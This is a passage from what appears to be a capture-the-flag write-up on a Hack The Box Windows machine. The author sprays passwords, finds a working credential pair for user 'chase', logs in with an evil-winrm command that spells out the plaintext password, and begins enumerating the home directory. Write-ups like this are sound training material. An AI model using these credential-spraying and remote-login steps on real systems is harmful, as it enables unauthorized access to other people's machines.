 Here I found some more users..so let’s add to user list and check with those passwords..

Finally, after many try found one pair…. chase: Q4)sJu\Y8qz*A3?d

Now let’s login with evil-winrm

    evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'                                                                                    1 ⨯

    Evil-WinRM shell v3.3
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this     machine
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Chase\Documents> whoami
    supportdesk\chase
    *Evil-WinRM* PS C:\Users\Chase\Documents>

After enumerating the box for a while I noticed that Firefox was installed on the box which is unusual:

      *Evil-WinRM* PS C:\users\chase> ls
      Directory: C:\users\chase
      
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-r---        4/22/2019   7:14 AM                3D Objects
      d-r---        4/22/2019   7:14 AM                Contacts
      d-r---        4/22/2019   6:10 PM                Desktop
      d-r---        4/22/2019   6:13 PM                Documents
      d-r---        2/18/2021   4:03 PM                Downloads
      d-r---        4/22/2019   7:14 AM                Favorites
      d-r---        4/22/2019   7:14 AM                Links
      d-r---        4/22/2019   7:14 AM                Music
      d-r---        4/22/2019   7:14 AM                Pictures
      d-r---        4/22/2019   7:14 AM                Saved Games
      d-r---        4/22/2019   7:14 AM                Searches
      d-r---        4/22/2019   7:14 AM                Videos
      
      
      *Evil-WinRM* PS C:\users\chase> cd links
      *Evil-WinRM* PS C:\users\chase\links> ls
      
      
          Directory: C:\users\chase\links
      
      
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----        4/22/2019   7:14 AM            494 Desktop.lnk
      -a----        4/22/2019   7:14 AM            939 Downloads.lnk
      
      
      *Evil-WinRM* PS C:\users\chase\links> cd.
      *Evil-WinRM* PS C:\users\chase> cd appdata
      *Evil-WinRM* PS C:\users\chase\appdata> ls -la (LOL🤣: running linux command in windows, this happens when you are too much stressed and have solved only unix machines🤣)
      A parameter cannot be found that matches parameter name 'la'.
      At line:1 char:4
      + ls -la
      +    ~~~
          + CategoryInfo          : InvalidArgument: (:) [Get-ChildItem], ParameterBindingException
          + FullyQualifiedErrorId : NamedParameterNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
      *Evil-WinRM* PS C:\users\chase\appdata> dir
      